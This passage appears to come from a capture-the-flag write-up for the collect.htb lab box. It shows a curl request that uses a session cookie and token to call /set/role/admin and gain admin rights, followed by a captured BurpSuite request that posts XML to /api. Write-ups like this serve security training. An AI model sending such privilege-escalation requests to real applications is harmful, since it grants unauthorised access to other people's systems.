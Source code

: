 Judging from the endpoint name `/set/role/admin`{:.filepath}, it seems like the purpose is to grant special privileges to the current user.

### Upgrade Account

Since we know that there is an account registration page at <http://collect.htb/register>, we'll create an account, login and see what happens when we send that request to `/set/role/admin`{:.filepath}.

![Registration page](register.png)

Once we have signed in, we take the _PHPSESSID_ cookie from our authenticated session and send the following:

```bash
# bryan@red_team (bash)
session="" # value of authenticated PHPSESSID here
curl -i "$vhost[1]/set/role/admin" -b "PHPSESSID=$session" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "token=ddac62a28254561001277727cb397baf"
```
{:.nolineno}

The response redirects us to [/admin](http://collect.htb/admin), which we are now permitted to access under this session.

![Admin dashboard](admin-dashboard.png)

The admin dashboard includes a registration form for the API.

![Admin API user registration](admin-register.png)

Let's send a request with some random credentials and intercept it in BurpSuite.

```http
POST /api HTTP/1.1
Host: collect.htb
Content-Length: 177
User-Agent: BurpSuite
Content-type: application/x-www-form-urlencoded
Accept: */*
Origin: http://collect.htb
Referer: http://collect.htb/admin
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=jeudpk98fa0b0co7gd1mme4v38
Connection: close

manage_api=<?xml version="1.0" encoding="UTF-8"?><root><method>POST</method><uri>/auth/register</uri><user><username>garbage</username><password>garbage</password></user></root>
```
{:.nolineno}

We capture a POST request to [/api](http://collect.htb/api) with some XML content assigned to the *manage_api* parameter.
